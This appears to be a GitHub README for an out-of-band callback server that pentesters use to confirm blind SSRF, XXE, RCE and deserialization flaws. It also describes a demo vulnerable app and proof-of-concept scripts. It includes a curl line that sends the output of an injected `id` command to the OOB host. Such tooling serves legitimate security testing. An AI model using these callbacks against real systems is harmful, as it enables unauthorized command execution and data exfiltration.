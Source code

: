 # OOB Server for blind vulns
* Reference:

  https://notsosecure.com/out-band-exploitation-oob-cheatsheet
  
* Perfect OOB server project:

  https://github.com/projectdiscovery/interactsh
```
USAGE:

[+] ON OOB SERVER (10.0.0.10)
SHELL$ wget https://github.com/projectdiscovery/interactsh/releases/download/v1.1.9/interactsh-client_1.1.9_linux_amd64.zip

SHELL$ cat oob.sh
./interactsh-client -s oast.me -ps  &
python3 -m http.server 8888

SHELL$ chmod a+x oob.sh;./oob.sh

[+] ON CLIENT (Test Machine)
SHELL$ curl 10.0.0.10:8888/interactsh_payload.txt
cntge6do4021ee5lcht0mnz1zbyh4zsnj.oast.me

THE PAYLOAD LINK 'cntge6do4021ee5lcht0mnz1zbyh4zsnj.oast.me',
can be use as blind payload, such as SSRF/XXE/RCE/Deserialization

```

----
# FOR THIS TOOL
## How to use?
## server.py
1. change HOST and PORT to your own OOB server's IP address and listen port.
2. start up the OOB server:
```bash
shell$ python3 server.py
```

### Simple Validation:
  
when client to access:
```
http://oob_server:port/geturl
```
the OOB server will generate and response a random URL like:
```
http://oob_server:port/iF9d2k
```
when client to access this random URL, it will create a txt file and logging client's IP.\
and client can access `random_url?m=1` to check this
```
http://oob_server:port/iF9d2k?m=1
```

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/c1880071-2ccb-4d70-ad39-fa649ec9cb34)

### Record Execution Result:
  
when pentester wants to gain the executed result of OS command, can send:
```
curl http://oob_server:port/`id`
```
and then to access following URL to get result:
```
http://oob_server:port/checklog
```
![image](https://github.com/NinjaGPT/oob_server/assets/4035112/14d1c6a4-bfbb-4ef3-b10d-afa074a9ea6a)

## victim.py
a demo of vulnerable Web application.
```
http://victim.com:port/vuln
POST
cmd={command}
```
<img width="633" alt="image" src="https://github.com/NinjaGPT/oob_server/assets/4035112/b1cf3229-c818-4dec-bacc-a948a0bec62b">

## poc.py
Simple Validation POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/6f5f7cee-b56d-4b93-9ade-dcb2d5c481f6)


## response_poc.py
Gain Execution Result POC

![image](https://github.com/NinjaGPT/oob_server/assets/4035112/245b8e28-1587-4821-b11b-4efed3d1a78f)
